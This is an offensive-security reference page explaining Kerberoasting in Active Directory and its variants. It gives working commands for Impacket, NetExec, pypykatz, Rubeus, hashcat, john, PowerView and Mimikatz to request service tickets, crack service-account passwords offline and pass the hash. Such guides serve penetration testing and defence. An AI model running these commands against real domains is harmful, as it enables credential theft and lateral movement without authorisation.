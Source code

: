 # Kerberoasting
MITRE ATT&CK™ Sub-technique T1558.003

![Kerberos Diagram](kerberoasting.jpg)

When asking the KDC (Key Distribution Center) for a Service Ticket (ST), the requesting user needs to send a valid TGT (Ticket Granting Ticket) and the service name (`sname`) of the service wanted. If the TGT is valid, and if the service exists, the KDC sends the ST to the requesting user.

Multiple formats are accepted for the `sname` field: servicePrincipalName (SPN), sAMAccountName (SAN), userPrincipalName (UPN), etc.

The ST is encrypted with the requested service account's NT hash. If an attacker has a valid TGT and knows a service (by its SAN or SPN), he can request a ST for this service and crack it offline later in an attempt to retrieve that service account's password.

In most situations, services accounts are machine accounts, which have very complex, long, and random passwords. But if a service account, with a human-defined password, has a SPN set, attackers can request a ST for this service and attempt to crack it offline. **This is Kerberoasting**.

> [!IMPORTANT]
> Unlike [ASREProasting](asreproast.md), this attack can only be carried out with a prior foothold (valid domain credentials), except in the Kerberoasting without pre-authentication scenario.

The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) can perform all the necessary steps to request a ST for a service given its SPN (or name) and valid domain credentials.

> [!TIP]
> The Kerberoasting attack can be conducted without knowing any SPN of the target account, since a service ticket can be request for as long as the service's SAN (`sAMAccountName`) is known. ([swarm.ptsecurity.com](https://swarm.ptsecurity.com/kerberoasting-without-spns/))
> 
> Nota bene, Kerberos can deliver service tickets even if the service has no SPN at all, but then the service's SAN must end with `$`, and in this case it's hard to know for sure if the service's password is defined by a human. Kerberoast attacks usually target user accounts with at least one SPN (`servicePrincipalName`) since they probably have human-defined passwords.

```bash
# with a password
GetUserSPNs.py 'DOMAIN/USER:Password' -dc-ip $KeyDistributionCenter -outputfile kerberoastables.txt

# with an NT hash
GetUserSPNs.py 'DOMAIN/USER' -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter -outputfile kerberoastables.txt
```

This can also be achieved with [NetExec](https://github.com/Pennyw0rth/NetExec)
```bash
netexec ldap $TARGETS -u $USER -p $PASSWORD --kerberoasting kerberoastables.txt --kdcHost $KeyDistributionCenter
```

Using [pypykatz](https://github.com/skelsec/pypykatz/wiki/Kerberos-spnroast-command) it is possible to request an RC4 encrypted ST even when AES encryption is enabled (and if RC4 is still accepted of course). The tool features an -e flag which specifies what encryption type should be requested (default to 23, i.e. RC4). Trying to crack `$krb5tgs$23` takes less time than for `krb5tgs$18`.
```bash
pypykatz kerberos spnroast -d $DOMAIN -t $TARGET_USER -e 23 'kerberos+password://DOMAIN\username:Password@IP'
```


[Rubeus](https://github.com/GhostPack/Rubeus) can be used for that purpose.
```powershell
Rubeus.exe kerberoast /outfile:kerberoastables.txt
```


[Hashcat](https://github.com/hashcat/hashcat) and [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper) can then be used to try cracking the hash.
```bash
hashcat -m 13100 kerberoastables.txt $wordlist
```

```bash
john --format=krb5tgs --wordlist=$wordlist kerberoastables.txt
```

### Kerberoast w/o pre-authentication
In September 2022, [Charlie Cark](https://twitter.com/exploitph) explained how Service Tickets could be obtained through `AS-REQ` requests (which are usually used for TGT requests), instead of the usual `TGS-REQ`. He demonstrated (and [implemented](https://github.com/GhostPack/Rubeus/pull/139)) how to abuse this in a Kerberoasting scenario.

If an attacker knows of an account for which pre-authentication isn't required (i.e. an [ASREProastable](asreproast.md) account), as well as one (or multiple) service accounts to target, a Kerberoast attack can be attempted without having to control any Active Directory account (since pre-authentication won't be required).

The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetUserSPNs](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) (Python) can perform all the necessary steps to request a ST for a service given its SPN (or name) and valid domain credentials.

_At the time of writing, Sept. 28th 2022,_ [_the pull request (#1413)_](https://github.com/SecureAuthCorp/impacket/pull/1413) _adding the `-no-preauth` option for `GetUserSPNs.py` is pending._
```bash
GetUserSPNs.py -no-preauth "bobby" -usersfile "services.txt" -dc-host "DC_IP_or_HOST" "DOMAIN.LOCAL"/
```

```
srv01
cifs/srv02.domain.local
cifs/srv02
```

[Rubeus](https://github.com/GhostPack/Rubeus) can be used for that purpose.
```powershell
Rubeus.exe kerberoast /outfile:kerberoastables.txt /domain:"DOMAIN.LOCAL" /dc:"DC01.DOMAIN.LOCAL" /nopreauth:"nopreauth_user" /spn:"target_service"
```
### Targeted Kerberoasting
If an attacker controls an account with the rights to add an SPN to another ([`GenericAll`](../dacl/#genericall), [`GenericWrite`](../dacl/#genericwrite)), it can be abused to make that other account vulnerable to Kerberoast (see [exploitation](../dacl/targeted-kerberoasting.md)).

> [!TIP]
> Controlling a member of the [Account Operators](../builtins/security-groups) group, targeted Kerberoasting can be conducted for the whole domain (see [exploitation](../dacl/targeted-kerberoasting.md)).


### Tidbits
```powershell
# To see existing tickets
klist

# Remove all tickets
klist purge
```
### PowerView
Request a kerberos service ticket for specified SPN.  By default the output is in Hashcat format
```powershell
Request-SPNTicket -SPN "CIFS/target.domain.local" [-OutputFormat JTR]
```
### Manually
By doing it manually, ticket is generated, it requires to be extracted to crack the hash
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "CIFS/target.domain.local"
```

Dump the tickets out
```text
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

Now, crack ’em
### Over-Pass the Hash
#### Rubeus
```powershell
Rubeus.exe asktgt /user:USER < /rc4:HASH | /aes128:HASH | /aes256:HASH> [/domain:DOMAIN] [/opsec] /ptt
```
#### Mimikatz
```powershell
sekurlsa::pth /user:Administrator /domain:target.domain.local < /ntlm:hash | /aes256:hash> /run:powershell.exe
```
## Resources

[https://en.hackndo.com/kerberos](https://en.hackndo.com/kerberos)

[https://adsecurity.org/?p=2011](https://adsecurity.org/?p=2011)

[https://www.semperis.com/blog/new-attack-paths-as-requested-sts/](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/)

[https://swarm.ptsecurity.com/kerberoasting-without-spns/](https://swarm.ptsecurity.com/kerberoasting-without-spns/)

https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast